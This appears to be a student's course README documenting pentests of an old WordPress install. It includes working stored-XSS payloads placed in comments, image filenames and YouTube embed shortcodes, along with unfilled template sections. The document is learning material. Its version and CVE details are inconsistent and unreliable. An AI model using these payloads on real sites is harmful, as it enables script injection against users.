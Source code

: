 # Web-Security-Weeks-7-8-Project-WordPress-vs.-Kali
Weeks 7 &amp; 8 Project: WordPress vs. Kali

# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1.3.7-4.4 Authenticated Cross-Site Scripting (XSS) CVE-2016-1564 
  - [ 1] Summary: 
    - Vulnerability types: 3.7-4.4	
    - Tested in version: 4.2
    - Fixed in version: 4.26
  - [1 ] GIF Walkthrough: ![reply](https://user-images.githubusercontent.com/55426354/79058665-d1ece000-7c3e-11ea-992d-961c92d0f2e7.gif)
  - [ 1] Steps to recreate: Post the following XSS code into a comment or post than do->
	 <span>[http://codepath.org//<svg onload=alert('got_you')]</span>
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename CVE-2016-7168 
    - Vulnerability types:
    - Tested in version: 2.5-4.6
    - Fixed in version: 4.2
  - [ ] GIF Walkthrough: ![picture](https://user-images.githubusercontent.com/55426354/79058836-d1eddf80-7c40-11ea-972c-f45bbde089b9.gif)
  - [ ] Steps to recreate:  <ol>
<li>find an image and upload.</li>
  <li>Change the .jpg with the following script hope<img src= picture onerror =alert("picture_got_u")>.jpg</li>
<li>Create new media in library and upload the image.</li>
<li>View attachment page to view the image post.</li>
</ol>
<hr>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1.4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds CVE-2015-6535 
    - Vulnerability types: 4.0-4.7.2
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![video](https://user-images.githubusercontent.com/55426354/79059136-b2f14c80-7c44-11ea-92db-90ec9597cbcb.gif)
  - [ ] Steps to recreate: Create a new post and embed a link
 <ol>
<li>Insert the malicious YouTube embed shortcode.</li>
  <li>[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]</li>
</ol>
	
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.